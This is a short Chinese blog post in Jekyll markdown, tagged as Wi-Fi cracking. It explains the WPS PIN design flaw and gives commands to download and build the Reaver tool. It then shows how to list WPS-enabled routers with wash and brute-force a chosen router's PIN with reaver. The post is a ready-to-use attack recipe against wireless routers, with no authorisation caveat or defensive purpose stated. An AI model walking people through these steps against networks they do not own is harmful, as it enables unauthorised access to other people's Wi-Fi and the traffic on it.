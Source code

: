 ```yaml
---
layout: post
category: hacker
title: PIN码破解
tags: [wifi破解]
---
```


<!--more-->

# PIN码破解 #

为了方便用户连接wifi，Wi-Fi联盟出台了一个解决方案Wi-Fi Protectd Setup，简称WPS，但是这个方法有个安全漏洞。本文用Linux的Reaver软件使用穷举法破解PIN码。PIN码共8位十进制数，分为前四位，后三位和最后一位，其中最后一位为校验位，可以根据前面几位计算出来。所以穷举的次数为：10^4+10^3 = 11000。PIN码破解需要在信号强度很强的地方进行，强度负号后面数字大表示信号弱,数字小表示信号强。

1. 下载源码`wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz`
2. 安装依赖库`apt-get install libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev`
3. 编译安装

~~~
cd  src

./configure

make

make install
~~~

1. wash -i mon0 -C      								//查看支持PIN码破解的无线路由 
2. reaver -i mon0 -b 路由MAC地址 -S -a -p 路由PIN码 -vv //开始PIN破解

